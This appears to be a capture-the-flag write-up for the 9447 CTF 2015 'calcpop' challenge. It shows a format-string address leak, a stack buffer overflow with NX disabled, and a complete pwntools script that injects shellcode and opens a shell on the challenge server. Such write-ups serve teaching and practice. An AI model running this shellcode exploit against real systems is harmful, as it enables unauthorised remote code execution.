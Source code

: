 ```yaml
---
layout: post
title: "9447ctf: calcpop"
author: f0rki
categories: writeup
tags: [cat/exploit]
---
```


* **Category:** Exploitation
* **Points:** 80
* **Solves:** 174
* **Description:**

> See if you can pop *this* calc.
>
> Running at calcpop-4gh07blg.9447.plumbing port 9447
>
>
[calcpop.tar.gz](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/calcpop/calcpop-42928687007cc7a92fc0ac6028cf8f64.tar.gz)  42928687007cc7a92fc0ac6028cf8f6


## Write-up

We can connect to the challenge and send it two numbers, which it will add for
us. If we send something without a space, it will tell us the address of
our input, because instead of `%s` there is a `%p` in the format string:

```
Missing a space; your input was %p\n
```

Such a nice a infoleak. After some poking around I found that it is a straight
forward stack based buffer overflow:

{% highlight bash %}
$ python -c 'import sys; sys.stdout.write("A"*256)' | nc calcpop-4gh07blg.9447.plumbing 9447
Welcome to calc.exe
Missing a space; your input was 0xff8b44d0
Missing a space; your input was 0xff8b44d0
timeout: the monitored command dumped core
/usr/local/bin/ctf_wrapper.sh: line 6: 13607 Segmentation fault      timeout 300 $1 $2
{% endhighlight %}

Also using checksec we can see that `NX` is disabled.

{% highlight bash %}
$ checksec --file calcpop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   calcpop
{% endhighlight %}

Yeah exploitation like it's the 90's. So we put shellcode on the stack and
overwrite the return address with the address we got from the infoleak. This is
pretty straightforward using a pwntools script.

The flag was: `9447{shELl_i5_easIEr_thaN_ca1c}`


{% highlight python %}
#!/usr/bin/env python

from pwn import *  # NOQA

context.arch = 'i386'

velf = ELF('./calcpop')

BUFFERSIZE = 128

shellcode = shellcraft.linux.sh()
log.info("using shellcode:\n" + shellcode)
shellcode = asm(shellcode)
nopslide = "\x90" * (BUFFERSIZE - len(shellcode))
payload = nopslide + shellcode

context.log_level = 'debug'

vp = remote('calcpop-4gh07blg.9447.plumbing', 9447)
#vp = process('./calcpop')
#gdb.attach(vp)

vp.recvline()
vp.sendline("")
s = vp.recvline().strip()
leakedaddr = s.split(" ")[-1]
leakedaddr = long(leakedaddr, 16)
log.info("leaked the addr " + hex(leakedaddr))

retaddr = leakedaddr + 20
log.info("trying return to " + hex(retaddr))

payload += (p32(retaddr)) * 10
#payload += (p32(0x41414141)) * 100

vp.sendline(payload)
vp.clean_and_log()
vp.sendline("exit")
vp.clean_and_log()
vp.sendline("pwd;ls;whoami;")
vp.clean_and_log()
vp.interactive()

{% endhighlight %}

